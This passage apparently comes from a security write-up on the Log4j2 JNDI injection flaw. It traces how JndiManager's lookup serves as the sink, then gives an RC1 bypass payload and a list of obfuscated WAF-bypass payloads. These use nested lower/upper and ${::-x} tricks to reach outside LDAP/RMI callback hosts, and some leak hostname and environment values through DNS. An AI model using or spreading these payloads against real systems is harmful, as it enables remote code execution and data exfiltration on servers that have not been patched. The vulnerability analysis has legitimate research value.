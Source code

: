 `JndiManager` uses the private inner class `JndiManagerFactory` to create an instance of `JndiManager`. A new instance of `InitialContext` is created in the return statement and passed as a parameter to create `JndiManager`, and `Context` is saved in the member variable `context`.

![](./images/22.png)

![](./images/24.png)

The `JndiManager#lookup` method calls `this.context.lookup` to implement the `JNDI` query operation. The `JndiManager` class is the final `sink` point in the `Log4j2` package in this vulnerability (it is planned to try to use `CodeQL` to detect it later).

![](./images/23.png)


# RC1 Bypass
Reference article: [Apache Log4j2 bypasses from RCE to RC1] (https://xz.aliyun.com/t/10649#toc-2). When you reach the last `lookup` operation in this version, just let the `lookup` method throw an exception when executing (provided that `lookup` is enabled), and modify the `payload` into the following form:

```java
${jndi:ldap://xxx.xxx.xxx.xxx:xxxx/ ExportObject}
```

# Waf bypass
Here is a collection of some online `Waf` bypassing `Payload`:

```text
${jndi:ldap://127.0.0.1:1389/ badClassName}

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zse
c.uk/sploit}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk
```
